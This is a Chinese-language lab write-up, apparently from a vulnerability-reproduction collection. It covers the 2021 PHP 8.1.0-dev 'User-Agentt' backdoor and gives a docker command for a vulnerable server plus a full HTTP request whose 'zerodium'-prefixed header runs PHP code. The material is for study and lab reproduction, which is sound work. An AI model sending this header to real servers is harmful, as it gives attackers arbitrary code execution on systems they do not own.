 # PHP 8.1.0-dev User-Agentt 后门导致远程代码执行漏洞

PHP 8.1.0-dev 版本在2021年3月28日被植入后门，但是后门很快被发现并清除。当服务器存在该后门时，攻击者可以通过发送**User-Agentt**头来执行任意代码。

参考链接：

- https://news-web.php.net/php.internals/113838
- https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d
- https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a

## 漏洞环境

执行如下命令启动一个存在后门的PHP 8.1服务器：

```
docker compose up -d
```

环境启动后，服务运行在`http://your-ip:8080`。

## 漏洞复现

发送如下数据包，可见代码`var_dump(233*233);`成功执行：

```
GET / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
User-Agentt: zerodiumvar_dump(233*233);
Connection: close


```

![](1.png)
